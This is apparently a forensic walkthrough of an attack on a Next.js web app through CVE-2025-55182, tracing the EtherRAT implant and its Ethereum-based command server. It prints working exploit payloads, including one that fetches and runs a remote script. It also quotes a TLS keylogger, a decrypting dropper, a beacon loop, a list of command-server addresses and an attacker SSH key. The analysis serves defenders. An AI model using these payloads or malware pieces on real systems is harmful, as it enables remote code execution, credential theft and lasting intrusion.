### <span class="hl">TL;DR</span>

On February 10th, 2026, an attacker targeted the Maromalix web application, beginning with an Nmap decoy scan to mask their true IP. They exploited **CVE-2025-55182**. The initial payload downloaded a bash script (s.sh) that installed a local Node.js environment, deployed a TLS keylogger to sniff outbound traffic, and dropped an AES-256 encrypted blob. A Stage 2 JavaScript dropper decrypted this blob into **EtherRAT**, a sophisticated Stage 3 implant. EtherRAT uses Ethereum smart contracts as a **blockchain-based C2 resolver**. After querying the primary and fallback contracts via public RPC nodes, the malware resolved its active C2 to a fallback IP (*63.176.62.199*). The attacker then initiated an automated post-exploitation sequence: collecting host telemetry, exfiltrating AWS/SSH/Kube credentials, establishing persistence via five different OS mechanisms, planting an SSH backdoor, and finally updating the server's Next.js version to patch the vulnerability and secure their access.

### <span style="color:red">Stage 0: Initial Access</span>

#### Nmap Scan

I started by identifying possible port scanning activity. I used the display filter *tcp.flags.syn == 1 && tcp.flags.ack == 0*, which isolates SYN scan packets.



In the screenshot, we can see a lot of different IP addresses scanning various ports on host *172.31.44.238*, this is likely nmap scan with -D parameter for **decoy scanning**. Nmap sends extra packets with spoofed source IP addresses. The target receives a flood of scan requests from various sources, making actual IP address look like just another "random" entry in a sea of traffic

Looking at the conversations, I observed a whole group of addresses from different subnets, confirming the use of Decoys.



#### Exploitation

I shifted my focus to the HTTP traffic and noticed that host *63.180.69.24* was connecting to the web server using the `python-requests/2.31.0` library.



At 18:36, the same host started sending POST requests to the /login, /register, /contact, /checkout, /profile, and /dashboard pages with a test payload: `[{"id":"test"}]`.



Then they sent a specialized payload to the */login* page, which immediately caused a **500 Internal Server Error**. The command they successfully injected and ran was `id`.

```json
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\": \"$B0\"}",
  "_response": {
    "_prefix": "var res = process.mainModule.require('child_process').execSync('id',{'timeout':300000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
```

They used Node's internal `child_process` module to execute a shell command directly on the server. The 500 error response leaked the output of the `id` command back to the attacker.



This exploitation chain is a direct signature of **CVE-2025-55182**.

#### CVE-2025-55182

CVE-2025-55182 is an unsafe deserialization critical (10/10) vulnerability in React Server Components (RSCs) that allows unauthenticated remote code execution via a single HTTP request. The vulnerability exists in the requireModule function within the react-server-dom-webpack package. It affects React 19.x and frameworks built on it, including Next.js 15.x and 16.x when using the App Router. 

After verifying execution, the attacker sent another payload forcing the server to download and execute a script named `s.sh` from their infrastructure (*63.176.62.199*).

```json
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\": \"$B0\"}",
  "_response": {
    "_prefix": "var res = process.mainModule.require('child_process').execSync('while :; do (curl -sk https://63.176.62.199:443/s.sh -o ./s.sh 2>/dev/null || wget -qO ./s.sh https://63.176.62.199:443/s.sh --no-check-certificate 2>/dev/null) && [ -s ./s.sh ] && chmod +x ./s.sh && (nohup ./s.sh >/dev/null 2>&1 &) && break; sleep 300; done',{'timeout':300000}).toString().trim(); throw Object.assign(new Error('NEXT_REDIRECT'), {digest:`${res}`});",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
```

### <span style="color:red">Stage 1: Shell Script Deployment</span>

#### s.sh analysis

The downloaded script starts by defining specific operational directories and downloading a self-contained Node.js binary:

```bash
MALWARE_DIR="$HOME/.local/share/.05bf0e9b"
NODE_DIR="$MALWARE_DIR/.4dai8ovb"
NODE_VERSION="v20.11.0"
NODE_URL="https://nodejs.org/dist/${NODE_VERSION}/node-${NODE_VERSION}-linux-x64.tar.xz"

mkdir -p "$MALWARE_DIR" "$NODE_DIR" 2>/dev/null
cd "$MALWARE_DIR" || exit 1

if [ ! -f "$NODE_DIR/node" ]; then
# downloads and unpack node.js
fi
# ...[snip]...
```

We can see the malware resides in the hidden `"$HOME/.local/share/.05bf0e9b"` folder. It downloads its own specific Node.js runtime (v20.11.0) into `"$HOME/.local/share/.05bf0e9b/.4dai8ovb"` to ensure payload compatibility regardless of the victim's environment.

#### TLS Keylogger

After setting up the environment, it creates a `/tmp/.font-unix` folder where it stores a `.fontconfig` file. This is a malicious **TLS Keylogger** (Sniffer).

```bash
mkdir -p /tmp/.font-unix 2>/dev/null

# Keylog preload script - hooks ALL TLS connections
cat > /tmp/.font-unix/.fontconfig << 'FCEOF'
const fs = require('fs'),
    tls = require('tls'),
    p = '/tmp/.font-unix/.cache';
const _c = tls.connect;
tls.connect = function(...a) {
    const s = _c.apply(this, a);
    s.on('keylog', l => fs.appendFileSync(p, l));
    return s
};
const h = require('https'),
    _r = h.request;
h.request = function(...a) {
    const r = _r.apply(this, a);
    r.on('socket', s => s.on && s.on('keylog', l => fs.appendFileSync(p, l)));
    return r
};
FCEOF
```

It acts as an inline TLS session key extractor. By overriding Node.js's native tls.connect and https.request modules, it intercepts all outbound encrypted connections made by the server. It captures the SSL/TLS master secrets triggered by the `keylog` event and appends them to a hidden file (`/tmp/.font-unix/.cache`). This allows the attacker to decrypt any secure communications originating from the compromised machine.

Finally, the script drops a massive encrypted blob into `$HOME/.local/share/.05bf0e9b/.1d5j6rm2mg2d`.

```bash
cat > "$MALWARE_DIR/.1d5j6rm2mg2d" << 'BLOB_END'
2HVnlpRxwJyMF00X9WjlS...
BLOB_END
```

### <span style="color:red">Stage 2: JavaScript Dropper</span>

The next part of the bash script writes and executes a Stage 2 JS dropper (.kxnzl4mtez.js). This dropper is responsible for decrypting the previous blob into the `.7vfgycfd01.js` payload. It uses AES-256 in CBC mode with a **hardcoded key** (a3f8b2c1d4e5f6a7b8c9d0e1f2a3b4c5) and **IV** (d4e5f6a7b8c9d0e1).

```js
cat > "$MALWARE_DIR/.kxnzl4mtez.js" << 'DROP_END'
// ============================================
// STAGE 2: JS DROPPER
// Filename on victim: .kxnzl4mtez.js
// ============================================

const MALWARE_DIR = path.join(require('os').homedir(), '.local', 'share', '.05bf0e9b');
const ENCRYPTED_BLOB = path.join(MALWARE_DIR, '.1d5j6rm2mg2d');
const DECRYPTED_IMPLANT = path.join(MALWARE_DIR, '.7vfgycfd01.js');
const NODE_BINARY = path.join(MALWARE_DIR, '.4dai8ovb', 'node');

const ALGORITHM = 'aes-256-cbc';
const KEY = 'a3f8b2c1d4e5f6a7b8c9d0e1f2a3b4c5';
const IV = 'd4e5f6a7b8c9d0e1';

function decrypt(encryptedData) {
    const key = Buffer.from(KEY, 'utf8');
    const iv = Buffer.from(IV, 'utf8');
    
    const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
    let decrypted = decipher.update(encryptedData, 'base64', 'utf8');
    decrypted += decipher.final('utf8');
    
    return decrypted;
}

function main() {
    try {
        if (fs.existsSync(DECRYPTED_IMPLANT)) {
            execute();
            return;
        }
        
        if (!fs.existsSync(ENCRYPTED_BLOB)) {
            process.exit(1);
        }
        
        const encrypted = fs.readFileSync(ENCRYPTED_BLOB, 'utf8');
        const decrypted = decrypt(encrypted);
        fs.writeFileSync(DECRYPTED_IMPLANT, decrypted, { mode: 0o700 });
        
        execute();
    } catch (e) {
    //...[snip]...
    }
}

function execute() {
//...[snip]...
}

main();
DROP_END
```

**I recreated the decryption routine using the hardcoded key/IV and successfully retrieved the Stage 3 script.**

### <span style="color:red">Stage 3: The Main Implant</span>

#### Blockchain-Based C2

The decrypted script contains header comments identifying it as **EtherRAT**. 



This is a highly evasive implant that uses a **blockchain-based command and control** architecture via Ethereum smart contracts. Instead of hardcoding a traditional URL, it connects to a smart contract on the Ethereum mainnet. It essentially asks the blockchain, "Where should I send the victim right now?" The smart contract responds with the active C2 URL. This means the infrastructure is dynamically hosted on the blockchain, and the attacker can update the C2 at any time without altering the malware on the host.

The malware contains configurations for two smart contracts: a PRIMARY and a FALLBACK.



#### Contract Overview & OSINT

I checked the primary contract (`0x22f96d61cf118efabc7c5bf3384734fad2f6ead4`) on Etherscan. It was created on Dec-05-2025.



Looking at the transactions, I saw multiple calls to a `Set String` method, confirming the attacker is actively rotating their C2 URLs.



By inspecting the contract's **Events** logs, the changes to the contract are clearly visible. The attacker updated it 9 times, cycling through unique URLs, including direct IPs and tracking links:
* http://91.215.85.42:3000
* http://173.249.8.102/
* https://grabify[.]link/SEFKGU
* https://grabify[.]link/SEFKGU?dry87932wydes/fdsgdsfdsjfkl



Looking at the fallback contract in the code, it contains a larger list of potential C2 endpoints, including:
\- https://15.116.46.18:443  
\- https://63.176.62.199:443  
\- https://3.78.187.211:443  
\- https://3.66.227.157:443  
\- https://52.59.200.147  
\- https://3.78.229.44:3000  
\- https://18.198.1.194:3000  
\- https://63.179.143.20:3000  
\- https://35.159.53.179:3000  
\- https://3.125.41.44:3000  
\- https://3.125.39.195:3000  
\- http://91.215.85.42:3000  

EtherRAT utilizes several core functions to manage this process:



#### Initialization and C2 Resolution

The script's main() function starts by checking the locale, refusing to execute in this countries: ru, be, kk, ky, tg, uz, hy, az, ka. It then loops through the configured contracts and calls `queryContract()`, which makes public RPC requests to resolve the URL.

```javascript
async function main() {
    // CIS locale check
    if (checkLocale()) {
    ///...[snip]...
    
    // Load or create state
    if (!loadState()) {
    ///...[snip]...

    // C2 resolution
    let c2Url = null;
    let contractIndex = 0;
    
    while (!c2Url && contractIndex < CONTRACTS.length) {
        const config = CONTRACTS[contractIndex];
        const resolvedUrl = await queryContract(config);
    ///...[snip]...
        if (resolvedUrl) {
            const test = await testC2Connection(resolvedUrl);
            
            if (test.success) {
                ///...[snip]...
                saveState();
    }
```

Once a URL is successfully resolved, the malware tests the connection, sends a unique *BotId* inside a state structure, and saves this state to `$MALWARE_DIR/.a3f8b2c1d4e5.json`.
```js
let state: {
    botId: null;
    c2Url: null;
    contractIndex: number;
    stage: number; // starts with "0"
    firstRun: boolean;
}
```
#### Beacon Loop and ABI Analysis

The main beaconing loop continuously fetches payloads from the attacker's server and executes them, utilizing random delays to evade detection.

```javascript
    // Main beacon loop
    let failureCount = 0;
    
    while (true) {
        try {
            const response = await beacon(c2Url, state.botId);
            failureCount = 0;
            
            if (response.status === 200 && response.body && response.body.length > 10) {
                const success = await executePayload(response.body, state.botId, c2Url);
                
                if (success) {
                    await reportStage(c2Url, state.botId, state.stage);
                    state.stage++;
                    //...[snip]...
                    saveState();
                    
                    if (state.stage < 4) {
                        const delay = randomDelay(STAGE_DELAY_MIN, STAGE_DELAY_MAX);
                        await new Promise(r => setTimeout(r, delay));
                        continue;
                    }
                }
            } else if (response.status === 204) {
            //...[snip]...
            
        } catch (e) {
        //...[snip]...
        }
    }
}
```

In the code, I noticed the specific function selector used for the RPC call (`const FUNC_SELECTOR = '0x7d434425';`). Since the smart contract is deployed publicly on the blockchain, I decompiled the bytecode to view the **ABI** (Application Binary Interface). 



This revealed the exact function signatures: `getString(address)` maps to the 0x7d434425 selector (used by the bot to read the C2), and `setString(string)` maps to 0x7fcaf666 (used by the attacker to update the C2).

### <span style="color:red">Post-Exploitation</span>

I continued to analyze network traffic and at 18:37, I observed the victim host (*172.31.44.238*) making multiple HTTP/JSON POST requests to public Ethereum RPC servers (Tenderly, Llamarpc, Flashbots) to query the smart contract for the active C2.



One second later, the host connected to *91.215.85.42:3000* (the URL retrieved from the primary contract). While this resulted in a 404, it successfully registered and retrieved the BotId 4ebfbc8aedf60511.



Because the primary C2 didn't serve a payload, the implant logically rolled over to its FALLBACK contract configuration. The victim then established a secure connection to *63.176.62.199 over port 443*, retrieving its subsequent stages masqueraded as .css and .png files.



#### Stage 0: Reconnaissance

The first payload executed was an aggressive reconnaissance script collecting host information, network interfaces, and checking for the existence of AWS, Kubernetes, Docker, and Git configurations.



The script exfiltrated the following JSON structure back to the C2:

```json
{
  "type": "recon",
  "timestamp": "2026-02-10T18:37:25.434Z",
  "botId": "4ebfbc8aedf60511",
  "hostname": "ip-172-31-44-238",
  "username": "maromalix",
  "homedir": "/home/maromalix",
  "platform": "linux",
  "arch": "x64",
  "release": "6.14.0-1018-aws",
  "cpus": "Intel(R) Xeon(R) Platinum 8259CL CPU @ 2.50GHz",
  "cpuCount": 2,
  "totalMemory": "4 GB",
  "freeMemory": "3 GB",
  "networkInterfaces": [
    {
      "name": "ens5",
      "addresses": [
        "172.31.44.238",
        "fe80::456:62ff:fea4:482b"
      ]
    }
  ],
  "shell": "/bin/bash",
  "lang": "C.UTF-8",
  "uid": 999,
  "paths": {
    "ssh": true,
    "aws": true,
    "kube": false,
    "docker": false,
    "git": false
  }
}
```

#### Stage 1: Sensitive File Theft

The next payload systematically searched for sensitive files (`.aws/credentials`, `id_rsa`, `.env`, etc.) and scanned command history for critical keywords like password, secret, api_key, and aws_access. This data was exfiltrated to a `/crypto/keys` endpoint.



#### Stage 2: Deep Persistence

The third payload firmly entrenched the malware by executing 5 distinct persistence functions:

```javascript
function persistSystemd() {
// creates a user-level systemd service with a randomized name to execute the implant   
// on system startup and automatically restart it if it gets killed
}

function persistXDG() {
// drops a hidden .desktop file into the user's autostart directory (~/.config/autostart/) 
// to execute the payload whenever a graphical desktop session is launched
}

function persistCron() {
// injects an @reboot directive into the user's crontab to silently launch 
// the malware in the background every time the system reboots.
}

function persistBashrc() {
// appends a 'nohup' background execution command to ~/.bashrc, 
// triggering the malware every time the user opens a new interactive bash terminal.
}

function persistProfile() {
// appends a background execution command to ~/.profile, 
// ensuring the malware runs whenever the user logs into a new shell session.
}
```

The success of these installations was reported back in a comprehensive JSON bundle.
```json
{
  "type": "persistence",
  "timestamp": "2026-02-10T18:38:05.784Z",
  "botId": "4ebfbc8aedf60511",
  "methods": {
    "systemd": {
      "success": true,
      "path": "/home/maromalix/.config/systemd/user/c16a536e1a9cb42d.service"
    },
    "xdg": {
      "success": true,
      "path": "/home/maromalix/.config/autostart/a5eae68533ea066c.desktop"
    },
    "cron": {
      "success": true
    },
    "bashrc": {
      "success": true
    },
    "profile": {
      "success": true
    }
  }
}
```
#### Stage 3: SSH Backdoor

To guarantee alternative administrative access, the malware installed an SSH backdoor by appending the attacker's public RSA key to the victim's ~/.ssh/authorized_keys file under the comment `maromalix@ether_dev`.
```js
const ATTACKER_KEY = 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDFkH2PJL8n1LJP+vqMkHxVMPLfr4KrMFCnV4sJnQ6L4aNLMzFPWYpKg1McV6rqXGLLPpVFGM/+gJPLEpHbKnPvxIgZ4RhdeXk+M4O/vpTMMEMPqMGF8P3VcBaLBgqE3WDREF4XGZ9OWf7L8lUCPU7Q0C4hrbJrq3NF1c+QHRZBOJpx0z5m5F7W8QK8kbKnHBHqMkMd8dQ4F1c+KKtF3I3A2LCMsALBPMcGVbZd1O9B3KWL4r2q9V6R7BwFo8h1h1x1c1x1h1F8o8k1b1w1r1p1v1o1i1e1w maromalix@ether_dev';
const KEY_FINGERPRINT = 'SHA256:1RquAvdtW48Ken6IVUZi/o4liu1SXlvezhgjb2fnvBg';
function installSSHKey() {
// appends the attacker's public RSA key to the 
// user's ~/.ssh/authorized_keys file with maromalix@ether_dev comment
}

function exfil(data) {
// makes POST requset to /BotId endpoint with results
}
```
#### Stage 4: Interactive Shell

The attacker then dropped an interactive JSON-based shell execution module, allowing them to route arbitrary commands through the C2 and read the output.

